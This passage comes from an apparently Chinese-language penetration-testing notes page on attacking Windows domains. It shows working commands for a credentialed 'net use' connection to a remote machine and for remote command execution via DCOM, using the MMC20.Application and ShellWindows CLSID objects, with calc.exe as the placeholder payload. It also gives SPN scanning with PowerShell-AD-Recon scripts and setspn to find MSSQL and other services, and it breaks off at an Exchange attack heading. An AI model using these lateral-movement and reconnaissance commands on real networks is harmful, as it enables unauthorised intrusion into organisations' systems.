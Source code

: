 |     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>net use \\IP "password" /user:pentest.hacker\win7user<br>``` |

#### [](#%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4)执行命令

##### [](#%E8%B0%83%E7%94%A8-mmc20_application-%E8%BF%9C%E7%A8%8B%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4)调用 MMC20\_Application 远程执行命令

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>$com=[Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","IP"))<br>$com.Document.ActiveView.ExecuteShellCommand("cmd.exe","0","/c calc.exe","Minimzed")<br>``` |

#### [](#%E8%B0%83%E7%94%A8-9ba05972-f6a8-11cf-a442-00a0c90a8f39)调用 9BA05972-F6A8-11CF-A442-00A0C90A8F39

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```powershell<br>$com=[Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"IP")<br>$obj=[System.Activator]::CreateInstance($com)<br>$item=$obj.item()<br>$item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\windows\system32","$null",0)<br>``` |

## [](#spn-%E5%9C%A8%E5%9F%9F%E7%8E%AF%E5%A2%83%E4%B8%AD%E7%9A%84%E4%BD%BF%E7%94%A8)SPN 在域环境中的使用

### [](#spn-%E6%89%AB%E6%8F%8F)SPN 扫描

PowerShell-AD-Recon

#### [](#%E5%88%A9%E7%94%A8-spn-%E5%8F%91%E7%8E%B0%E5%9F%9F%E4%B8%AD%E6%89%80%E6%9C%89%E7%9A%84-mssql-%E6%9C%8D%E5%8A%A1)利用 SPN 发现域中所有的 MSSQL 服务

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>Import-Module .\Discover-PSMSSQLServer.ps1<br>Discover-PSMSSQLServers<br>``` |

#### [](#%E6%89%AB%E6%8F%8F%E5%9F%9F%E4%B8%AD%E6%89%80%E6%9C%89%E7%9A%84-spn-%E4%BF%A1%E6%81%AF)扫描域中所有的 SPN 信息

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>Import-Module .\Discover-PSInterestingServices.ps1<br>Discover-PSInterestingServices<br>``` |

在不使用第三方 Powershell 脚本的情况下，输入如下命令查询所有的 SPN 信息

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>setspn -T domain -q */*<br>``` |

### [](#exchange-%E9%82%AE%E4%BB%B6%E6%9C%8D%E5%8A%A1%E5%99%A8%E6%94%BB%E5%87%BB)Exchange 邮件服务器攻击

